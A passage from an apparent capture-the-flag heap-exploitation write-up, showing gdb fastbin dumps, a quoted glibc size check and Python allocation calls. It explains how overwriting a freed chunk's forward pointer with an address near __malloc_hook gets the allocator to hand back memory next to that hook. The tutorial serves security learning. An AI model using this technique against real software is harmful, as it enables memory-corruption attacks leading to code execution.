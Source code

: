 ```
(gdb) printfastbin 
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x603000 --> 0x603070 --> 0x7ffff7dd371d
(0x80)     fastbin[6]: 0x0
```

Our assumptions were correct! `0x603070` was indeed deleted from the list and was given back to the user. We also overwrote the data in `0x603070` which happens to be in the fastbin list as well. Particularly, we ovewrote its FD pointer. Meaning, once we allocate `0x603070` again,
its FD will be placed on top of the list, leading to the next allocation giving us back the address `0x7ffff7dd371d`. 

Now you might be wondering why did I overwrite the FD with `malloc_hook - 0x23`. That's because of the following check malloc does:

```
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
```

Practically, it checks if the size of the chunk that is about to be given back to the user is indeed within the range of a fastbin. If it is, all good, if not, adios.
So all we have to do is overwrite the FD of `0x603070` with an address close to __malloc_hook's such that address->size is in the range of the fastbin sizes.
```
(gdb) x/4gx 0x7ffff7dd3740 - 0x30 + 0xd
0x7ffff7dd371d:	0xfff7a95bb0000000	0x000000000000007f
0x7ffff7dd372d:	0xfff7a95b50000000	0x000000000000007f
```

Let's move on with our allocations.

```python
alloc(0x68, 'F'*10)
alloc(0x68, 'G'*10)
```

```
(gdb) printfastbin 
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x7ffff7dd371d
(0x80)     fastbin[6]: 0x0
```
